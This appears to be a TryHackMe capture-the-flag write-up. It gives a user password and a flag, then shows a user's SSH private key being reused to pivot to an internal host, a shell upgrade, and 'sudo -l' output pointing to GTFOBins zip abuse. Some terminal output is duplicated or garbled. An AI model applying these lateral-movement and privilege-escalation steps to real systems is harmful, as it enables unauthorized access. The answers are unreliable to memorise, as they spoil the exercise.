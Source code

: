 What is the users password?
*snickers*


Flag 1
*THM{Hey!_Welcome_in}*

### Pivoting 



User wileec has a ssh private-key!

wileec@Erit:~$ ls -lart .ssh/
-rw-r--r-- 1 wileec wileec  393 Apr 25 15:19 id_rsa.pub
-rw------- 1 wileec wileec 1675 Apr 25 15:19 id_rsa
-rw-r--r-- 1 wileec wileec  222 Apr 25 15:32 known_hosts

Remember the other IP address? We could try to connect to that one, using the SSH key:

ssh wileec@192.168.100.1

Remember: This has to be done from inside of the box, as this network is not available to you from the outside.

We can sudo!
If you look at gtfobins we can see how we could leverage this.

The command is not going to work as it is, you must edit some parts.

```
wileec@Erit:~$ ls -la .ssh    ls -la .ssh
ls -la .ssh
total 20
drwxr-xr-x 2 wileec wileec 4096 Apr 25  2020 .
drwxr-xr-x 4 wileec wileec 4096 Apr 25  2020 ..
-rw------- 1 wileec wileec 1675 Apr 25  2020 id_rsa
-rw-r--r-- 1 wileec wileec  393 Apr 25  2020 id_rsa.pub
-rw-r--r-- 1 wileec wileec  222 Apr 25  2020 known_hosts

Remember the other IP address? We could try to connect to that one, using the SSH key: 

wileec@Erit:~$ ssh wileec@192.ssh wileec@192.168.100.1
ssh wileec@192.168.100.1

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Apr 25 12:36:02 2020 from 192.168.100.100
$ SHELL=/bin/bash script -q /dev/null
SHELL=/bin/bash script -q /dev/null
wileec@Securus:~$ sudo -l           sudo -l
sudo -l
Matching Defaults entries for wileec on Securus:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User wileec may run the following commands on Securus:
    (jsmith) NOPASSWD: /usr/bin/zip

```
